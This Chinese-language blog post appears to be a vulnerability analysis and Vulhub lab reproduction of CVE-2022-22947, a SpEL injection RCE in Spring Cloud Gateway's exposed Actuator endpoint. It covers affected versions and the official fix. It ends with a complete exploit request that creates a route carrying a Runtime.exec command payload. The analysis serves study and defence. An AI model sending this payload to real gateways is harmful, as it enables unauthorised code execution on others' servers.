 ![imagepng](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2ur61lKd3ZmhFhU5pMnxuKvjw0UZeicadvjHx6RSAuFbQTwCGuFxZwqteomyQEn0IvPZHM81zozOiaicg/640?wx_fmt=png "")  
  
## CVE-2022-22947 RCE  
  
Spring Cloud Gateway 是 Spring 中的一个 API 网关，旨在提供一种简单而有效的方法来路由到 API 并为其提供横切关注点，例如：安全性、监控/指标和弹性（英文直译，可参见官方介绍文档）。客户端发起请求给网关，网关处理映射找到一个匹配的路由，然后发送该给网关的 Web 处理器，处理器会通过一条特定的Filter链来处理请求，最后会发出代理请求，Filter 不仅仅做出预过滤，代理请求发出后也会进行过滤。  
  
Spring Cloud Gateway 在其 3.1.0 及 3.0.6 版本（包含）以前存在一处 SpEL 表达式注入漏洞，当 Gateway Actuator 端点启用、暴露且不安全时，使用 Spring Cloud Gateway 的应用程序很容易受到代码注入攻击。远程攻击者可能会发出恶意制作的请求，从而允许在远程主机上进行任意远程执行。  
  
受影响的 Spring Cloud Gateway 版本（当前官网版本已达 v4.0.9）：  
```
3.1.03.0.0 to 3.0.6  Older, unsupported versions are also affected
```  
  
漏洞披露与分析文章链接：https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/。  
### 漏洞原理分析与复现  
  
从 Spring官方的修复代码 可以直观看出这个 SpEL 表达式注入的位置：  
  
![imagepng](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2ur61lKd3ZmhFhU5pMnxuKvj3iaQPEClA4VicjIrAjnwLqoHpzdZC8YhtQc8scGb4UjnWzPJ5x4XkO7A/640?wx_fmt=png "")  
  
  
修复方法是使用安全的上下文 SimpleEvaluationContext 替换了不安全的 StandardEvaluationContext（SpEL 表达式注入漏洞的相关知识可以参见我的另一篇文章：《Java代码审计之SpEL表达式注入漏洞分析》）：  
  
![imagepng](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2ur61lKd3ZmhFhU5pMnxuKvjfEoskgZyPiclIhOj0L16aOX4Z4wbALOXQPYK1Y8VjeLlYroNsb9h6kw/640?wx_fmt=png "")  
  
  
至于入参传递到漏洞触发点的过程请参见《Spring Cloud GateWay 远程代码执行漏洞(CVE-2022-22947) 》，此处不展开。  
  
直接使用 Vulhub 靶场环境和 指导文档 快速进行漏洞复现，前面已经提到了 Vulhub 靶场的 CVE-2022-22947 环境，存在 actuator 未授权访问且启用了 Actuator Gateway ：  
  
![imagepng](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2ur61lKd3ZmhFhU5pMnxuKvjkGEEK8e47r99InibeTWdRl8vMuHdtV3O6j1hqiaBqFUJHrEFDI9TJiccA/640?wx_fmt=png "")  
  
  
![imagepng](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2ur61lKd3ZmhFhU5pMnxuKvjkYiaFxFd0bKHtpA7U6urSSddqNTneAx9JBXicuaqLRmgfca4HUL8rb5g/640?wx_fmt=png "")  
  
  
从官方文档 https://docs.spring.io/spring-cloud-gateway/docs/3.0.4/reference/html/#actuator-api 可以看到，如果配置了暴露 actuator 端点，允许 jmx 或者 Web 访问，则可以通过 /gateway 接口与网关进行交互，并创建新的自定义路由。  
  
![imagepng](https://mmbiz.qpic.cn/sz_mmbiz_png/XvnzjMsl2ur61lKd3ZmhFhU5pMnxuKvjddElaxq5RcvU113Cns4FGLSeJJ72KlsI0wb7jsLuALEHLbXs9k9uDw/640?wx_fmt=png "")  
  
  
利用这个漏洞需要发送两个 HTTP 数据包。  
  
首先，发送如下数据包即可添加一个包含恶意 SpEL 表达式的路由：  
```
POST /actuator/gateway/routes/hacktest HTTP/1.1Host: localhost:8080Accept-Encoding: gzip, deflateAccept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36Connection: closeContent-Type: application/jsonContent-Length: 329{"id":"hacktest","filters":[{"name":"AddResponseHeader","args":{"name":"Result","value":"#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}}],"uri":"http://example.com"}
```  
  